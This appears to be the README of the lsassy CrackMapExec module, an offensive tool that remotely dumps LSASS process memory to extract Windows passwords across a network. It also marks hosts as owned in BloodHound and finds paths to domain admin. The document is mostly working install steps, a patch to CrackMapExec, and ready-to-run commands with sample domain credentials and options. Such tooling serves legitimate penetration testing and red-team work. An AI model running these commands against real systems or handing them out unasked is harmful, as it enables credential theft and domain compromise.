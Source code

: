 # lsassy CrackMapExec Module

![CrackMapExec >= 4.0.1](https://img.shields.io/badge/CrackMapExec-%3E=4.0.1-red)

This CME module uses **lsassy** to remotely extract lsass password, and optionnaly interacts with Bloodhound to **set compromised hosts as owned** and check if compromised users have a **path to domain admin**.

![CME Module example](/assets/cme_lsassy.gif)

## Requirements

* Python2.7
  - [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
* Python3.6+
  - [lsassy](https://github.com/Hackndo/lsassy/)


## Installation

* Clone git repo

From SSH: (Need Github account with ssh key)
```bash
git clone git@github.com:Hackndo/lsassy.git
```
From Https: (Without Github account)
```bash
git clone https://github.com/Hackndo/lsassy.git
```

* Copy `lsassy.py` in `[CrackMapExec Path]/cme/modules`
* Patch CrackMapExec file `cme > modules > smb > wmiexec.py` in `execute_handler` function: Replace `self.execute_fileless(data)` with `self.execute_remote(data)`. We need procdump output to be totally retrieved. This won't break anything in CME.
* Reinstall CrackMapExec using python2.7 `python setup.py install`

```bash
cd lsassy/cme
cp lsassy.py /opt/CrackMapExec/cme/modules/
cd /opt/CrackMapExec
python setup.py install
```

## Usage

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy
```

You can set BloodHound integration using `-o BLOODHOUND=True` flag. This flag enables different checks :
* Set "owned" on BloodHound computer nodes that are compromised
* Detect compromised users that have a **path to domain admin**

```bash
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o BLOODHOUND=True
```

You can check available options using

```
cme smb 10.10.0.0/24 -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy --options
[*] lsassy module options:

            TMP_DIR             Path where process dump should be saved on target system (default: C:\\Windows\\Temp\\)
            SHARE               Share to upload procdump and dump lsass (default: C$)
            PROCDUMP_PATH       Path where procdump.exe is on your system (default: /tmp/)
            PROCDUMP_EXE_NAME   Name of the procdump executable (default: procdump.exe)
            REMOTE_LSASS_DUMP   Name of the remote lsass dump (default: tmp.dmp)
            BLOODHOUND          Enable Bloodhound integration (default: false)
            NEO4JURI            URI for Neo4j database (default: 127.0.0.1)
            NEO4JPORT           Listeninfg port for Neo4j database (default: 7687)
            NEO4JUSER           Username for Neo4j database (default: 'neo4j')
            NEO4JPASS           Password for Neo4j database (default: 'neo4j')
            WITHOUT_EDGES       List of black listed edges (example: 'SQLAdmin,CanRDP', default: '')

```

Options can be set using

```bash
cme smb dc01.adsec.local -d adsec.local -u jsnow -p Winter_is_coming_\! -M lsassy -o PROCDUMP_PATH='/home/pixis/Tools/' PROCDUMP_EXE_NAME='procdump.exe'
```

## Issue

If you find an issue with this tool (that's very plausible !), please

* Check that you're using the latest version
* Send as much details as possible.
    - For standalone **lsassy**, please use the `-d` debug flag
    - For CME module, please use CrackMapExec `--verbose` flag

Have fun
